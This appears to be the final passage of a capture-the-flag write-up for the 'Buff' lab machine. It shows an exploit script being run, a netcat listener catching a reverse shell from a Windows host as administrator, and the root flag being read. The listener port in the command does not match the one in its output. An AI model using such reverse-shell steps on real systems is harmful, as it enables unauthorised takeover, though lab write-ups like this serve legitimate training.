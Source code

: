 ```console
└─$ python3 buff.py
```
Hopefully everything went well and you become root!

```console
└─$ nc -lvnp 5555
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.7.44] 49680
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
buff\administrator
```
```console
C:\users\administrator\Desktop> type root.txt
type root.txt
c2a8****************************
```
GG!
